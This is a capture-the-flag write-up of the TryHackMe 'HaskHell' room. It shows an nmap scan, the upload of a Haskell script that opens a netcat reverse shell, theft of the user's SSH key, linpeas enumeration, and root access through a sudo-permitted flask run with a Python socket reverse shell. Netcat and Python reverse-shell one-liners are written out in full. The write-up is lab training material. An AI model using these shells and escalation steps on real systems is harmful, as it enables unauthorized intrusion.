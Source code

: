 ```yaml
---
layout: post
title: WRITE UP - TryHackMe - HaskHell
date: 2022-02-19
---
```


# Writeup - TryHackMe = HaskHell

**This article was initially published in my former blog on the 12th of October 2020**
Today i am going to present the write up for [HaskHell](https://tryhackme.com/room/haskhell) on TryHackMe.

First of all after having deployed the machine, we can run nmap on the targeted IP.

## Nmap

`nmap -p- -sV 10.10.54.105`

Result of Nmap:  
```
kali@kali:~$ nmap -p- -sV 10.10.54.105 -T4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-11 11:40 EDT
Nmap scan report for 10.10.54.105
Host is up (0.23s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
5001/tcp open  http    Gunicorn 19.7.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1183.25 seconds
```
We can see that port 5001 is http and open.

## Let’s have a look at Port 5001

Go to `http://<target-ip>:5001`  

![Homepage](/img/port-5001-thm-haskhell.png){: width="500" }  
*Homepage of the haskell course*

If you click on « homework here » you will find a page with an exercise  

![Homewwork](/img/homework-thm-haskhell.png){: width="500" }  
The link to submit exercise respond with a 404.
Also the following screen shows us that this teacher has already been hacked.  
![Hint](/img/hint-thm-haskhell.png){: width="500" }  

This also gives us a huge hint: We can submit a haskell script and it will be interpreted. So let’s try to make a reverse shell.

But first let’s try to execute a command. Here is the documentation to execute a command with haskell: [System Process on haskell](https://ghc.gitlab.haskell.org/ghc/doc/libraries/process-1.6.10.0/System-Process.html)

Also we need to find where to upload our script, let’s run dirb.

## Dirb

![Dirb](/img/dirb-thm-haskhell.png){: width="500" }  
`http://10.10.54.74:5001/submit`  
![Submit Assignment](/img/submit-assignement-thm-haskhell.png){: width="500" }  
*The page where we will submit our shell*  
Okay, now that we know where to put our script. Let’s write it!

## Reverse shell with Haskell

I did not know anything about haskell so after some digging i found out that i had to save my script with .hs in the end for it to be recognized and executed by our target.

Also the text in homework1 specifies: « Your file will be compiled and ran and all output will be piped to a file under the uploads directory. »
This means that we will be able to see our output and errors in order to debug our script if we need (which was really helpful for me)

First i tried a simple ls
```
#!/bin/env runhaskell
import System.Process

main :: IO ()
main = do
 let stdin' = ""
 (errCode, stdout', stderr') <- readProcessWithExitCode "ls" ["-lar"] stdin'
 putStrLn $ "stdout: " ++ stdout'
 putStrLn $ "stderr: " ++ stderr'
 putStrLn $ "errCode: " ++ show errCode
```

And i got this:  
![ls with haskell](/img/ls-haskell-thm-haskhell.png){: width="500" }  

On `pentestmonkey.net` we find the following command:  

```
nc -e /bin/sh 10.0.0.1 1234
```
So i tried a netcat with the `-e` option to specify what to do after the nc.
However, there were 2 errors on my case my port 1234 was busy and the netcat command on the target did not handle -e option. Resolving the first error is easy (changed my port to 8888) but not the second one 🙂
So the script that worked for me was the following one:
```
module Main where 
import System.Process
 main = system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 8888>/tmp/f"
```
Indeed according to this [website](https://gist.github.com/sckalath/67a59eb4955f1f9aedde), the following command would be handled on the other netcat versions:

```
#other version of netcat 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8888 >/tmp/f
```

Do not forget before uploading the script to launch you listener on your attacking machine
```
nc -lvp 8888
```
And then we get a shell:  
![initial access](/img/initial-access-thm-haskhell.png){: width="500" }  

And we can get the user flag:

```
$ ls
__pycache__
user.txt
$ cat user.txt
```

Now that we got user we need to get root. But first let’s find to way to avoid having to connect through our webshell. Let’s try to use ssh. If we navigate to the user .ssh folder we have a key pair.
Let’s try to get those on our attacker machine by running python simple http server.  

![SSH](/img/ssh-thm-haskhell.png){: width="500" }  
Then from the attacking machine we can connect through ssh after having set up the proper permission for our private key (700)
![Change permissions](/img/perm-key-thm-haskhell.png){: width="500" }  
To have an interactive shell we can run this:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
And there we go:  
![Interactive shell](/img/interactive-shell-thm-haskhell.png){: width="500" }  

## Linux enumeration with linepeas

Let’s upload linepeas in our target machine.

On our kali we run
```
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
```
And then we launch python simple server to put it on the target  

![Linepeas](/img/linepeas-wget-pythonserv-thm-haskhell.png){: width="500" }  

And from our target we get it with:
```
$ wget http://10.2.28.215:8000/linpeas.sh$ chmod 755 linepeas.sh$ ./linpeas.sh
```
Linepeas is very good but for this context we could have done a sudo -l before and this would have been it. It is a good habit to try this before doing anything else.  
![Sudo -l](/img/sudo-l-thm-haskhell.png){: width="500" }  
Here is what we get if we run flask:

![flask](/img/flask-thm-haskhell.png){: width="500" }  

Well it is very useful. We know that we need to write a script and launch it as root. In my case i did a reverse shell but it can be even easier to just launch a shell with a python command.

Here is the reverse shell i did with a script:

```
#!/usr/bin/env python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("your-ip",8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

We then just have to set up a new listener on our attacker machine:

```
nc -lvp 8888
```

Export our script to our env (target machine)  

![Export of our script](/img/export-script-flask-thm-haskhell.png){: width="500" }  

And we run our script as root from the target machine:  
![Run as root](/img/run-as-root-thm-haskhell.png){: width="500" }  

We get a shell from our attacking machine. So let’s run our command to get an interactive shell:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

We now have the root flag:  

![Get root flag](/img/root-flag-thm-haskhell.png){: width="500" }  
